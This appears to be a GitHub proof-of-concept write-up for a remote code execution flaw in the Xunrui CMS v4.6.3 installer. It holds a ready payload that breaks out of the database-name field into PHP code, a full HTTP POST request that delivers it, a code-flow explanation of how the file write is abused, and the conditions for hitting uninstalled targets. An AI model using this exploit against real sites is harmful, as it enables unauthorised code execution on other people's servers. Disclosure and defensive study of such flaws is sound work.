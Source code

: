 # xunruicms_rce<br>
The RCE is connected through the CMS installation interface<br>
# Xunrui CMS Installation Vulnerability<br>

## Affected Range:
- Xunrui CMS Website Edition/Popular Edition v4.6.3 (2024-12-17)<br>

## Payload:
``` exp;-- ---'];phpinfo();['```

###Vulnerability Reproduction:<br>
Normal installation of .database.php<br>
During installation, the process immediately jumps to step 3.<br>
File After Successful Exploitation:
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%871.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%872.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%873.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%874.png)
The file after exploitation shows how the vulnerability is exploited.

#Code Analysis:
In tracing the code, it is found that the issue occurs when writing to . <br>

![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%875.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%876.png)
![image](https://github.com/trymonoly/xunruicms_rce/blob/main/%E5%9B%BE%E7%89%877.png)
The variable is set to the database name provided by the user, which is controllable.database.php$data['db_name']<br>
However, bypassing the database creation query is required.<br>

###Code Flow:
The code checks for the support of the MySQLi component and attempts to connect to MySQL.<br>
The second checks if the entered database name exists. If not, it executes an unfiltered SQL statement. At this point, entering a new database name can bypass the detection, allowing an SQL query to be executed.elseifCREATE TABLE<br>
Thus, the exploit is:<br>
```exp;-- ---'];phpinfo();['```
###Dynamic Analysis:<br>
If the SQL query is successfully executed, the rest of the process proceeds smoothly.<br>
The function is used to write to , achieving Remote Code Execution (RCE).file_put_contentsdatabase.php<br>
###Proof of Concept (PoC):<br>
```
POST /index.php?c=install&m=index&is_install_db=0&step=2 HTTP/1.1
Host: 192.168.1.7:8888
Content-Length: 383
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.7:8888
Referer: http://192.168.1.7:8888/index.php?c=install&m=index&step=2&is_install_db=0
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf_cookie_name=9e9016fb5bc3f485a8e925a7c5c91234; xunruicms_155ac35e9d97cb497b707ff408369036=b2iai3i1vb00fvfljjq4b075p18ul8eg; 155ac35e9d97cb497b707ff408369036_member_uid=1; 155ac35e9d97cb497b707ff408369036_member_cookie=54d727a59f315607beabd35eef7fae6f; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

is_form=1&is_admin=0&is_tips=&csrf_test_name=9e9016fb5bc3f485a8e925a7c5c91234&data%5Bname%5D=%E6%88%91%E7%9A%84%E9%A1%B9%E7%9B%AE&data%5Bemail%5D=admin%40admin.com&data%5Busername%5D=admin&data%5Bpassword%5D=admin&data%5Bdb_host%5D=127.0.0.1&data%5Bdb_user%5D=root&data%5Bdb_pass%5D=123456&data%5Bdb_name%5D=ee5%3B--+---'%5D%3Bphpinfo()%3B%5B'&data%5Bdb_prefix%5D=dr_&is_install_db=1
```

###Reproduce the Issue:<br>
1.Remotely connect to the attacker's database.<br>
2.The other party did not install the CMS, and did not generate the lock file.<br>
